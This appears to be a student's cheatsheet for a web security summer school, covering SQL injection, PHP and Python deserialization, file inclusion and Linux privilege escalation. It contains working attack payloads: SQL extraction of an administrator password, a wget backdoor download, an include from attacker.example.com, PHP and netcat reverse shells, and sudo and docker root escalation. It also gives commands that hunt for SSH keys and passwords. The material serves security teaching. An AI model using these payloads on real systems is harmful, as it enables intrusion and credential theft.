

# Security Summer School Cheatsheet

- Useful so far for midterm

## Session 01: Web Basics ([course](https://security-summer-school.github.io/web/web-basics-browser-security-model/))

Stateful (sessions) vs Stateless (no memory)

Static (fast & simple) vs Dynamic (complex & customizable)

CVE - database of known vulnerabilities of a site (CVE-year-code) => cpe (vulnerable platforms)
CWE - database of known vulnerabilities group by effect

HTTP - protocol on port 80
HTTPS - protocol on port 443

## Session 02 - Cookies, Sessions & Access Control ([course](https://security-summer-school.github.io/web/cookies-session-management-access-control/))

cookies = stored info on client part (HttpOnly (criptare) + Secure (in http si https))


hijacking cookies -> hijacking session

RBAC = role-based access control

exploit-db: dorks

- crawlers:

```
robots.txt sitemap.xml
```

## Session 03 - Securing Communication ([course](https://security-summer-school.github.io/web/securing-communication/))

TLS Handshake = key communication

D.F.K.E. = Diffie-Hellman Key Exchange: private + public key algorithms

CA = certification authority (has certificate signed by self)

Exchange: Public & Private Keys, Certificate (confirmation, name of key owner, name of CA)



commands:

- Capture HTTP packets and print their contents (ash human-readable ASCII characters):
```
sudo tcpdump -A tcp port 80
```
- Get remote web page:
```
wget http://www.google.com
```
```
wget https://www.google.com
```
```
curl http://www.google.com
```
```
curl https://www.google.com
```
- Inspect certificate file:
```
openssl x509 -noout -text -in certificate.crt
```
```
openssl x509 -noout -subject -issuer -in certificate.crt
```
- Verify certificate:
```
openssl verify -CAfile CA.crt certificate.crt
```
- Extract certificate(s) from remote end:
```
openssl s_client -showcerts -connect www.google.com:443 -servername www.google.com < /dev/null 2> /dev/null | sed -ne '/-BEGIN CERTIFICATE-/,/-END CERTIFICATE-/p'
```
- Assess remote HTTPS and certificate security:
```
./testssl.sh security.cs.pub.ro
```


/etc/ssl/certs/ca-certificates.crt -> all possible root certificates

## Session 04 - SQL Injection ([course](https://security-summer-school.github.io/web/sql-injection/))


SQL injection examples
There are a wide variety of SQL injection vulnerabilities, attacks, and techniques, which arise in different situations.
Some common SQL injection examples include:

Retrieving hidden data - you can modify an SQL query to return additional results.
```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
Subverting application logic - you can change a query to interfere with the application’s logic.
```
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```
UNION attacks - you can retrieve data from different database tables.

```
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```

UNION key requirements must be met:
- individual queries must return same nr of columns.
- data types in each column must be compatible between the individual queries.

How to find out the nr of columns

```
' ORDER BY N --
```

The second method involves submitting a series of UNION SELECT payloads specifying a different number of null values:

```
' UNION SELECT NULL,NULL,NULL--
```
After nr of columns, use values to determine data type and outputs

```
' UNION SELECT 'a',NULL,NULL,NULL--
```

```
' UNION SELECT username, password FROM users--
```

Examining the database - you can extract information about the version and structure of the database.

```
SELECT * FROM v$version
```
Determine what database tables exist, and which columns they contain
```
SELECT * FROM information_schema.tables
```

Different databases provide different ways of querying their version.

- Microsoft, MySQL	SELECT @@version
- Oracle	SELECT * FROM v$version
- PostgreSQL	SELECT version()

```
' UNION SELECT @@version--
```

Blind SQL injection - the results of a query you control are not returned in the application’s responses.

Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4

SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'

This query is vulnerable to SQL injection, but the results from the query are not returned to the user.

Check how server responds (change of cookie, delays)
```
xyz' AND '1'='1
```
```
xyz' AND '1'='2
```
This returns the “Welcome back” message, indicating that the injected condition is true.

```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```

Next input knowing password is greater than m (we find out not greater than t)
```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
```

```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's
```

Inducing conditional responses by triggering SQL errors

```
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```
We determine what letters are right
```
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

Exploiting blind SQL injection by triggering time delays
```
'; IF (1=2) WAITFOR DELAY '0:0:10'-- '; IF (1=1) WAITFOR DELAY '0:0:10'--
```
We can retrieve data in the way already described, by systematically testing one character at a time:
```
'; IF (SELECT COUNT(username) FROM Users WHERE username = 'Administrator' AND SUBSTRING(password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```
Second Order SQL Injection - payload already stored in the database intentionally placed it can be triggered elsewhere

Example

```
$sql = "INSERT INTO user (username, password)  VALUES (:username, :password)";
$data = [
        'username' => $userName,
        'password' => $password,
        'first_name' => $firstName,
        'second_name' => $secondName
        ];
$stmt = $conn->prepare($sql);
$stmt->execute($data);
```

Introduces the following structure as a name:

```
'; DROP TABLE user; --
```
We select the user by name use the following code:
```
$sql = "SELECT * FROM user WHERE username = '{$userName}'";
$stmt = $conn->query($sql);
$user = $stmt->fetch();
```
We do not use the parameterization => the code that will be executed:
```
SELECT * FROM user WHERE username = ''; DROP TABLE user; --';
```

How to prevent SQL injection - prepared statements

Vulnerable Code
```
String query = "SELECT * FROM products WHERE category = '" + input + "'";
Statement statement = connection.createStatement();
ResultSet resultSet = statement.executeQuery(query);
```

Good Code
```
PreparedStatement statement = connection.prepareStatement("SELECT * FROM products WHERE category = ?");
statement.setString(1, input);
ResultSet resultSet = statement.executeQuery();
```

# Session 05 - Cross Site Scripting ([course](https://github.com/costaalacuparmare/security-summer-school-v10/blob/master/web/05-cross-site-scripting/README.md))

Tools:
- [sqlmap](https://github.com/sqlmapproject/sqlmap)
- [xssstrike](https://github.com/sqlmapproject/sqlmap)
- [owasp zap](https://www.zaproxy.org/download/)

Resources:
- [XSS types of attacks](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md)
- [XSS Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)

# Session 06 - Recon & Enumeration ([course](https://security-summer-school.github.io/web/recon-enumeration/))

Tools:
- [nmap](https://insecure.org/)
- [burp](https://portswigger.net/burp)
- [dirb](https://www.kali.org/tools/dirb/)

```
dirb <ip-address> <known-extensions-file.txt>
```

DVWA - web container used to train for vulnerabilities

```
docker run --rm -it -p 80:80 vulnerables/web-dvwa
```

Resources:
- [Shodan](https://www.shodan.io/)
- [Shodan Guide](https://www.safetydetectives.com/blog/what-is-shodan-and-how-to-use-it-most-effectively/)
- [Testing tools](https://hackr.io/blog/top-10-open-source-security-testing-tools-for-web-applications)
- [Enumeration](https://www.knowledgehut.com/blog/security/enumeration-in-ethical-hacking)
- [Fuzzing wordlist](https://github.com/Bo0oM/fuzz.txt)
- [Pathways](https://github.com/aels/subdirectories-discover)
- [Known Credentials](https://github.com/danielmiessler/SecLists)

Bug Bounty Program Lists:

- [List 1](https://github.com/projectdiscovery/public-bugbounty-programs/blob/master/chaos-bugbounty-list.json)
- [List 2](https://www.bugcrowd.com/bug-bounty-list/)
- [List 3](https://hackerone.com/bug-bounty-programs)

# Session 07 - Framework & APIs' vulnerabilities ([course](https://security-summer-school.github.io/web/framework-api-vulnerabilities/))

Application programming interfaces (APIs):

- Broken Object Level Auth: can request information from an API endpoint
- Broken Authentication: dictionary/ brute force attacks allowed
- Excessive Data Exposure: An user can access lists of other items not needed for his access
- Lack of Resources & Rate Limiting: DoS attacks and endpoint outages (make too many requests)
- Broken Function Level Authorization: find endpoints that are vulnerable to requests (by modifying he sent data)
- Mass Assignment: update information that should not be accessed by showing the request with the information
- Security Misconfiguration: Using known systems without updates and being already cracked online (on Shodan)
- Injection: SQli, XSS, etc, but used like: "WAITFOR DELAY '0:0:5'-" therefore detecting a vulnerability
- Improper Assets Management: Access to undeleted previous APIs versions
- Insufficient Logging & Monitoring: Attacks slip away for as much as 200 days

Framework = software designed to ease the development of web applications (DB access, input filtering, auth, session handling, templates)

There are several different types of web application frameworks:
* General purpose website frameworks (Ruby On Rails, ExpressJS, Django, Flask)
* Discussion forums, wikis and weblogs (WikiBase/WikiWikiWeb)
* Organizational portals (JBoss Portal)
* Content Management Systems (CMS) (Joomla, Drupal, Wordpress)

Frameworks and the vulnerabilities:

- [Laravel](https://customerthink.com/what-makes-laravel-the-most-preferred-php-framework-for-web-development/): 2019 SQL Injection detected; vulnerable versions: Laravel 5.6/5.7/5.8 w/ Laravel-query-builder < v1.17.1 and 5.5 w/ query-builder < v1.16.1
- Drupal: 2018 Patch for form rendering that could execute code sent in the image field [POC] (https://github.com/a2u/CVE-2018-7600/blob/master/exploit.py); vulnerable versions: Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 /< 7.58
- WordPress: CVE-2018-6389 (DoS): [expoit live](https://www.youtube.com/watch?v=nNDsGTalXS0&feature=youtu.be)

DVWP - [Damn Vulnerable WordPress] (https://github.com/vavkamil/dvwp)

Tools:
- [WPScan](https://wpscan.com/wordpress-security-scanner)
- [BuiltWith](https://builtwith.com/)
- [Wappalyzer](https://www.wappalyzer.com/)

# Session 8: Exotic Attacks ([course](https://security-summer-school.github.io/web/exotic-attacks/))

- PHP Type Juggling: variables like Python, loose Comparison (`==`) vs. strict Comparison (`===`) => exploit in logins

	*How to avoid*:
	strict comparison/ specification of comparisons in functions;
	typecast in the clause, not before it ( (int) string => saves the first number from the string);


- Magic hashes: hashes that start w/ `0e` => `md5()`, used to crack passwords using
md5 known hashes

| Hash Type | Hash Length | "Magic" Number / String | Magic Hashes                              | Found By                |
| --------- | ----------- | ----------------------- | ----------------------------------------- | ----------------------- |
| md2     | 32    | 505144726             | 0e015339760548602306096794382326          | WhiteHat Security, Inc. |
| md4     | 32    | 48291204              | 0e266546927425668450445617970135          | WhiteHat Security, Inc. |
| md5     | 32    | 240610708             | 0e462097431906509019562988736854          | Michal Spacek           |
| md5     | 32    | QNKCDZO             | 0e830400451993494058024219903391          | -                       |
| sha1      | 40    | 10932435112             | 0e07766915004133176347055865026311692244  | Independently found by Michael A. Cleverly & Michele Spagnuolo & Rogdham |
| sha224    | 56    | –                     | –                                         | –                       |
| sha256    | 64    | –                     | –                                         | –                       |
| sha384    | 96    | –                     | –                                         | –                       |
| sha512    | 128   | –                     | –                                         | –                       |
| ripemd128 | 32    | 315655854             | 0e251331818775808475952406672980          | WhiteHat Security, Inc. |
| ripemd160 | 40    | 20583002034             | 00e1839085851394356611454660337505469745  | Michael A Cleverly      |


- Bypassing `strcmp()` function possible with giving array as input (`password[]=x`)


- Using `preg_replace()` to execute commands (example: `?replace=/Known/e&with=system(‘whoami’)`) => code injection w/
[PCRE modification flags](https://www.php.net/manual/en/reference.pcre.pattern.modifiers.php); function is  **deprecated** since **PHP 5.5.0**, and **removed completely** in **PHP 7.0.0**, because of its recklessly insecure nature.
The replacement function is called `preg_replace_callback()`, which uses a callback.


- PHP Object Injection / PHP Insecure Object Deserialization: application level vulnerability that could allow an attacker to perform different kinds of malicious attacks,
such as Code Injection, SQL Injection, Path Traversal and Application Denial of Service;
The vulnerability occurs when user-supplied input is not properly sanitized before being passed to the `unserialize()`
PHP function.

	Comprehensive list of PHP magic methods would be this one:

|                    |                  |                   |
| ------------------ | ---------------- | ----------------- |
| `__construct()`    | `__set()`        | `__toString()`    |
| `__destruct()`     | `__isset()`      | `__invoke()`      |
| `__call()`       | `__unset()`      | `__set_state()`   |
| `__callStatic()`   | `__sleep()`      | `__clone()`       |
| `__get()`          | `__wakeup()`     | `__debugInfo()`   |

- Exploit with the `__wakeup` in the `unserialize()` function

```php
<?php
    class PHPObjectInjection {
        public $inject;
        function __construct() {

        }
        function __wakeup() {
            if (isset($this->inject)) {
                eval($this->inject);
            }
        }
    }
    if (isset($_REQUEST['r'])) {
        $var1 = unserialize($_REQUEST['r']);
        if (is_array($var1)) {
            echo "<br/>" . $var1[0] . " - " . $var1[1];
        }
    } else {
        echo ""; # nothing happens here
    }
?>
```

Payload:

```
# Basic serialized data
a:2:{i:0;s:4:"XVWA";i:1;s:33:"Xtreme Vulnerable Web Application";}

# Command execution
O:18:"PHPObjectInjection":1:{s:6:"inject";s:17:"system('whoami');";}
```

This vulnerability is **extremely dangerous**, as it could also lead to an **RCE (Remote Code Execution)** exploit.
An attacker could use a payload which downloads a script and starts a reverse shell connected to the web server.
The payload could look like this:

```php
<?php
    class PHPObjectInjection
    {
        // Change URL/ filename to match your setup
        public $inject = "system('wget http://URL/backdoor.txt -O phpobjbackdoor.php && php phpobjbackdoor.php');";
    }
    echo urlencode(serialize(new PHPObjectInjection));
?>
```

- Authentication bypass - Type juggling

```php
<?php
    include("credentials.php");

    // $adminName = "random";
    // $adminPassword = "pass";

    $data = unserialize($_COOKIE['auth']);

    if ($data['username'] == $adminName && $data['password'] == $adminPassword) {
        echo "You logged in as admin!";
    } else {
        echo "Login failed!";
    }
?>
```

Payload: `a:2:{s:8:"username";b:1;s:8:"password";b:1;}`

- Local File Inclusion (LFI) / Remote File Inclusion (RFI)

	**LFI** attack => **Information Disclosure**, **Remote Code Execution (RCE)**, **Cross-site Scripting (XSS)**.
	
	**RFI** attack => can cause the web application to include a remote file.
This is possible for web applications that dynamically include external files or scripts.
Potential web security consequences of a successful **RFI** attack range from **Sensitive Information Disclosure** and **Cross-site Scripting (XSS)** to **Remote Code Execution (RCE)** and, as a final result, **full system compromise**.

**Remote file inclusion** attacks usually occur when an application receives a path to a file as input for a web page and does not properly sanitize it.
This allows an external URL to be supplied to the include function.


The above definitions are very similar, so what is the exact difference between the two of them and how does an exploit affect the web application in each case?

## Local File Inclusion

**Local File Inclusion** can be divided into subcategories based on the end target of the attack.

1. **Path Traversal** - which we have studied in a previous session.
It uses a local file path and enables the attacker to access the contents of arbitrary files.
The outcome of this attack is to read sensitive data and expose confidential information.

2. **Remote Code Execution (RCE)** - which is a **very dangerous vulnerability**.
It could be present in web applications that offer the possibility of uploading arbitrary files without proper checks.
Once a malicious file was uploaded (such as a reverse shell), the attacker can compromise the entire system.

```php
<?php
    // Get the filename from a GET input
    // Example - http://example.com/?file=filename.php
    $file = $_GET['file'];

    // Unsafely include the file
    // Example - filename.php
    include('directory/' . $file);
?>
```

Payload: `http://example.com/?file=../../uploads/evil.php`

## Remote File Inclusion

Exactly like in the case of **Local File Inclusion**, where the attacker is able to upload a reverse shell on the server, the **Remote File Inclusion** vulnerability lets the attacker include a remote file in the current web application and execute its contents.
This file could be a reverse shell and give the attacker **full system control**.

```php
<?php
    // Get the filename from a GET input
    // Example - http://example.com/?file=index.php
    $file = $_GET['file'];

    // Unsafely include the file
    // Example - index.php
    include($file);
?>
```

Payload: `http://example.com/?file=http://attacker.example.com/evil.php`

**Note:** Even though some web servers run as **root** (**which is a very bad practice**), most of them run as a special user (**www-data**) which doesn’t have root privileges.
This means that getting a reverse shell on a web server will grant you only the rights of the user running the website.
In order to get root access on the machine, further **privilege escalation** methods should be employed, which you will learn about in a future session.

### Example of a simple reverse shell in PHP:

```php
<?php
    $sock = fsockopen("127.0.0.1",1234);
    $proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
?>
```
# Python Insecure Deserialization / `pickle` module

We have looked at so many PHP vulnerabilities in this session, but you shouldn't be left with the impression that PHP is the only vulnerable language.
In this section we will approach an insecure object deserialization in a Python web application.

## Python `pickle`

In Python, the `pickle` module lets you serialize and deserialize data.
Essentially, this means that you can convert a Python object into a stream of bytes and then reconstruct it (including the object’s internal structure) later in a different process or environment by loading that stream of bytes.

When consulting the Python docs for pickle one cannot miss the following warning:

`Warning: The pickle module is not secure. Only unpickle data you trust.`

Let's have a look at how `pickle` handles your data. In Python you can serialize objects by using `pickle.dumps()`:

```python
import pickle

pickle.dumps(['pickle', 'me', 1, 2, 3])
```

The pickled representation we’re getting back from dumps will look like this:

`b'\x80\x04\x95\x19\x00\x00\x00\x00\x00\x00\x00]\x94(\x8c\x06pickle\x94\x8c\x02me\x94K\x01K\x02K\x03e'`

And now reading the serialized data back in...

```python
import pickle

pickle.loads(b'\x80\x04\x95\x19\x00\x00\x00\x00\x00\x00\x00]\x94(\x8c\x06pickle\x94\x8c\x02me\x94K\x01K\x02K\x03e.')
```

...will give us our list object back:

```python
['pickle', 'me', 1, 2, 3]
```

What is actually happening behind the scenes is that the byte-stream created by dumps contains opcodes that are then one-by-one executed as soon as we load the pickle back in.

Not every object can be serialized (e.g. file handles) and pickling and unpickling certain objects (like functions or classes) comes with restrictions.
The Python docs give you a good overview of what can and cannot be pickled.

While in most cases you don’t need to do anything special to make an object "picklable", pickle still allows you to define a custom behavior for the pickling process for your class instances.

Reading a bit further down in the docs we can see that implementing `__reduce__` is exactly what we would need to get code execution, when viewed from an attacker’s perspective:

> The `__reduce__()` method takes no argument and shall return either a string or preferably a tuple (the returned object is often referred to as the "reduce value"). [...]
When a tuple is returned, it must be between two and six items long.
Optional items can either be omitted, or `None` can be provided as their value.
The semantics of each item are in order:
> * A callable object that will be called to create the initial version of the object.
> * A tuple of arguments for the callable object. An empty tuple must be given if the callable does not accept any argument. [...]

So by implementing `__reduce__` in a class which instances we are going to pickle, we can give the pickling process a callable plus some arguments to run.
While intended for reconstructing objects, we can abuse this for getting our own reverse shell code executed.

A sample payload generator which opens a reverse shell can be analyzed below:

```python
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

This code will generate a reverse shell, which opens the possibility of **RCE** on the target machine.
In order to accomplish this, you also need to make sure the port is accessible to the Internet.
You may find some simple instructions for how to do this [here](https://securiumsolutions.com/blog/reverse-shell-using-tcp/), using `ngrok`.
Again, it's one of the most dangerous vulnerabilities for a web application, whatever the programming language was chosen for the back-end (be it **PHP**, **Python**, **JavaScript**, **Ruby**, etc.), and the programmer should be aware and protect it against malicious actors.
Also, always research the functions and modules used inside your application to prevent such vulnerabilities.

# Further Reading

* https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf
* https://www.netsparker.com/blog/web-security/php-type-juggling-vulnerabilities/
* https://foxglovesecurity.com/2017/02/07/type-juggling-and-php-object-injection-and-sqli-oh-my/
* https://hydrasky.com/network-security/php-string-comparison-vulnerabilities/
* https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09
* https://nitesculucian.github.io/2018/10/05/php-object-injection-cheat-sheet/
* https://www.imperva.com/learn/application-security/rfi-remote-file-inclusion/
* https://www.acunetix.com/blog/articles/remote-file-inclusion-rfi/
* https://www.acunetix.com/blog/articles/local-file-inclusion-lfi/
* https://bitquark.co.uk/blog/2013/07/23/the_unexpected_dangers_of_preg_replace
* https://www.whitehatsec.com/blog/magic-hashes/
* https://davidhamann.de/2020/04/05/exploiting-python-pickle/


# Session 9

## Introduction

When performing an attack on a target, the last step of a malicious actor, before achieving full system compromise, is to elevate his or her privileges to an administrative account. Once the attacker reached this phase and successully escalated his access rights, he can do anything with the vulnerable application or computer system.

## What is privilege escalation?

Privilege escalation vulnerabilities are security issues that allow users to gain more permissions and a higher level of access to systems or applications than their administrators intended. These types of flaws are valuable for attackers because they're needed for full exploit chains but can be overlooked by defenders or developers because of their lower severity scores.

In general, any violation of an intentional security boundary can be considered a privilege escalation issue, including gaining kernel access from a user application in an operating system, escaping a virtual machine to access the underlying hypervisor, gaining domain administrator access from a workstation, or gaining privileged roles in public web applications by exploiting misconfigurations.

There are two main types of privilege escalation:
1. **Horizontal Privilege Escalation** is when a user gains the access rights of another user who has the same access level as he or she does.
3. **Vertical Privilege Escalation** is when an attacker uses a flaw in the system to gain access above what was intended for him or her.

### Horizontal Privilege Escalation
Gaining access to a user account with the same level of privileges as the malicious actor might sound a little weird, but there are legitimate use-cases for this. Think about the following scenario:

> Bob and Alice both have their own accounts at the same bank. Bob has malicious intents and exploits a misconfiguration to gain access to Alice's account. Even though they have the same level of access to the application's functionality, Bob can now access Alice's personal information, and is able to alter her account, transfer money on her behalf and many other things.

### Vertical Privilege Escalation
Generally, when someone attempts to hack into a system, it’s because they want to perform some action on the system. This could be damaging the system or stealing information. Oftentimes, this requires a privilege level the attacker does not possess. This is where vertical privilege escalation comes in.

The attacker exploits a flaw in the system, abuses a misconfiguration, or uses another vector to elevate his privileges from a normal user to an administrator.

Once the attacker managed to elevate his access rights, he will be able to perform any action the compromised account was able to perform.

An actual scenario to better understand the potential damage:

> The attacker managed to capture the admin's session cookies and takes over his session. Once logged in using the admin's cookies, he has access to the administration panel of the web application. From here, he can steal sensitive information (such as users data), perform a Denial of Service (DoS) attack (by deleting website's data), and create persistence (by locking out the actual administrators of the website).

## Application vs System PrivEsc

In the context of Web Security, we can also speak of another way of categorizing privilege escalation:
1. **Application Privilege Escalation** is when the attacker uses the application accounts to gain further access to application functionality.
2. **System Privilege Escalation** is when the attacker has already gained access to the underlying system where the web application runs and wishes to elevate his privileges to the administrator's account of the server.

We have already given a few examples of application privilege escalations in thre previous section, so now we will focus on system privilege escalation.

### System Privilege Escalation

Security best practices suggest a very useful principle, called the **Principle of Least Privilege**, in which a user is given the minimum levels of access – or permissions – needed to perform his/her job functions.

Following this principle, web servers should always be run by an unprivileged user – say `www-data` on a Linux system. The reciprocate of this is to **never** run a web server as `root`. This is _very important_, as it adds an extra security layer in case the web application is compromised. If that happens, the attacker will have the same privileges on the system as the user running the application.

Let's say that an attacker managed to find an **RCE vulnerability** (Remote Code Execution) on the web application. If the application is run by `root`, the attacker will be able to perform any command on the system with the same privileges as `root`. If, however, the application is run as `www-data`, the attacker will only have access to a small part of the system and will have to find another vulnerability to elevate his privileges.

## Privilege Escalation Vectors

### Application Vectors

First of all, let's talk about how an attacker could perform a privilege escalation attack on the web application.

1. **Broken Access Control** - when a user can in fact access some resource or perform some action that they are not supposed to be able to access.
> **Example:** The web application has an admin panel protected against unauthorized access, but uses API calls to retrieve users and perform actions. The developer forgot to secure these API endpoints with the same protection as the admin panel interface and the attacker discovered them, having unrestricted access to admin commands.

2. **Session Hijacking** - when a user steals another user / administrator session cookies and impersonates him.
> **Example:** The attacker found an XSS vulnerability / performed a Man in the Middle Attack and stole the session cookie of another user. Now he is able to impersonate that user in any request by using their cookies. If the compromised account is a normal user, it's called horizontal privilege escalation. If it's an administrator account, it's called vertical privilege escalation.

### System Vectors

Finally, let's analyze a few methods where an attacker could gain elevated privileges once he has a foothold of the system (is able to execute commands on the underlying system).

There are countless methods to elevate privileges on a Linux system. The key in finding them is to **enumerate** the host for potential vectors.

1. **Kernel Exploit**
	- CVE-2016-5195 ([DirtyCow](https://dirtycow.ninja/)) - Linux Kernel <= `3.19.0-73.8`.
		A race condition was found in the way the Linux kernel's memory subsystem handled the copy-on-write (COW) breakage of private read-only memory mappings. An unprivileged local user could use this flaw to gain write access to otherwise read-only memory mappings and thus increase their privileges on the system.
	- sudo <= `v1.28`
		```bash
		> sudo -u#-1 /bin/bash
		```
	- More kernel exploits in this Git repos: [@lucyoa](https://github.com/lucyoa/kernel-exploits), [@offensive-security](https://github.com/offensive-security/exploitdb-bin-sploits/tree/master/bin-sploits).
2. **Exploiting SUDO Rights / SUID Binaries**
	- Sudo configuration might allow a user to execute some command with another user privileges without knowing the password:
		 ```bash
		 > sudo -l
		 User demo may run the following commands on demo-host:
			(root) NOPASSWD: /usr/bin/vim
		 ```
		 This would allow the attacker to create a privileged shell:
		 ```bash
		 > sudo vim -c '!sh'
		 ```
	- SUID Binaries. SUID/Setuid stands for "set user ID upon execution", and it is enabled by default in every Linux distributions. If a file with this bit is ran, the `uid` will be changed by the owner one. If the file owner is `root`, the `uid` will be changed to `root` even if it was executed from user `bob`. SUID bit is represented by an `s`.
		Commands to list SUID binaries:
		```bash
		> find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
		> find / -uid 0 -perm -4000 -type f 2>/dev/null
		```
	- [GTFOBins](https://gtfobins.github.io/) are a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.
3. **Path Hijacking**
	- Path Hijacking occurs when a program uses the relative path to another program instead of the absolute path. Consider the following Python code:
		```python
		import os
		os.system('create_backup')
		```
		The `$PATH` variable is a Linux environment variable that specifies where to look for a specific binary when a full path is not provided. An attacker can exploit this mechanism by either being allowed to modify the `$PATH` variable or being able to write files inside directories specified there.
		So, in order to exploit the above Python code, the attacker places a program called `create_backup` inside a location from the `$PATH` variable and Linux will execute the malicious program instead of the intended one.
4. **Docker Privilege Escalation / Container Escape**
	- This requires the user to be privileged enough to run docker, i.e. being in the `docker` group or being `root`.
		```bash
		> docker run -v /:/mnt --rm -it alpine chroot /mnt sh
		```
		The command above creates a new container based on the `Linux Alpine` image, mounts the `/` directory from the host on `/mnt` inside the container and runs it with `/bin/sh`. Now the attacker can read any file on the system.
	- Escaping Docker privileged containers. Docker privileged containers are those run with the `--privileged` flag. Unlike regular containers, these have root privilege to the host machine. A detailed article can be read [here](https://betterprogramming.pub/escaping-docker-privileged-containers-a7ae7d17f5a1)
5. **Others**
	- `id` / `whoami` - identify if the user is part of special groups, such as `docker`, `admin`, etc.
	- `cat /etc/passwd` - list system users for potential privilege escalation
	- `crontab -l` / `ls -al /etc/cron* /etc/at*` - enumerate cron jobs (scheduled jobs) on the system.
	- `ps aux` / `ps -ef` - inspect running processes
	- `find / -name authorized_keys 2> /dev/null` - find SSH authorized keys
	- `find / -name id_rsa 2> /dev/null` - find SSH private keys
	- `find / -type f -iname ".*" -ls 2>/dev/null` - find hidden files
	- `grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null` - find files containing passwords.
	- Manually looking through web server logs, such as access or error logs for any sensitive information. Default locations for these logs:
		- `/var/log/apache2/error.log`
		- `/var/log/apache/access.log`
		- `/var/log/apache2/access.log`
		- `/etc/httpd/logs/access_log`

### Tools

There are many tools that automated the process of enumeration and could help you save a lot of time when looking for privilege escalation vectors. The best tool for Linux is [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS).

## Preventing Privilege Escalation
When it comes to OS-level privilege escalation vulnerabilities, it's vital to install security patches as soon as possible, not only for the OS, but for all third-party applications used on the system.

Application whitelisting technologies can be used to restrict which programs may run on a system, enabling organizations to reduce a machine's attack surface. Making sure that unneeded services are turned off and that unused hardware components and drivers are disabled is also very important.

## Further reading
- https://www.csoonline.com/article/3564726/privilege-escalation-explained-why-these-flaws-are-so-valuable-to-hackers.html
- https://portswigger.net/web-security/access-control
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md
- https://book.hacktricks.xyz/linux-unix/privilege-escalation
- https://dirtycow.ninja/
- https://github.com/lucyoa/kernel-exploits
- https://github.com/offensive-security/exploitdb-bin-sploits/tree/master/bin-sploits
- https://gtfobins.github.io/
- https://betterprogramming.pub/escaping-docker-privileged-containers-a7ae7d17f5a1
- https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
- https://app.hackthebox.eu/machines

## Challenges

- Escalation

# Session 10

---
linkTitle: 10. End-to-End Attack
type: docs
weight: 10
---
# Introduction

There are multiple stages of a cyber attack: many of them contains five common stages used by a hacker to break into a system and also control it.
In the last time, cyber-attacks on critical infrastructure are becoming more common, complex and creative.

## Phase one: Reconnaissance and Research

Also called the `footprinting` stage, this phase consists of the research made by the attacker to obtain as much information as possible about the target.
The main objective is to understand the technologies that the target is using, what types of mechanisms the target has in place, and also where the target is located.

### Passive Reconnaissance

This type of reconnaissance collects open source information without engaging the target directly.
Types of Information used:

+ Search Engine queries: Shodan, Google Dorks, Censys.io, PublicWWW, Zoomeye

+ Social Media: Twitter, Facebook and Linkedin (information about employees, their roles and daily habits)

+ WHOIS lookup: collect domain registration info and IP addresses

### Active Reconnaissance

